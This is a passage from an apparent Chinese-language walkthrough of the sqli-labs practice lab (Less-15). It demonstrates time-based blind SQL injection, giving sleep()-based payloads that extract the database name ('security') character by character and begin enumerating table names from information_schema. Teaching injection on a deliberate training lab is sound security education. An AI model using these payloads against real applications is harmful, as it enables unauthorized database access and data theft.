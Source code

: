 由于页面产生了延时，所以数据库名长度是8



+ 爆库名，从左边第一个字母开始，判断库名第一个字母是不是`s`

~~~ shell
admin' and if(left(database(),1)='s',sleep(5),null) #

admin' and if(left(database(),2)='se',sleep(5),null) #

......
~~~

![Less-15_6](./img/Less-15_6.PNG)

由于页面有延时，因此数据库名是"se..."。得到的最终结果是<code>security</code>



或者注入如下语句也可，是同样的效果

~~~ shell
admin' and if(ascii(substr(database(),0,1))=115,1,sleep(5))#

admin' and if((select (substr(database(),1,1))="s") ,sleep(5), null)#
~~~



+ 爆表名

~~~ shell
admin' and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e' ,sleep(5),null)#

admin' and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),2)='em' ,sleep(5),null)#

admin' and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),3)='ema' ,sleep(5),null)#

......
~~~
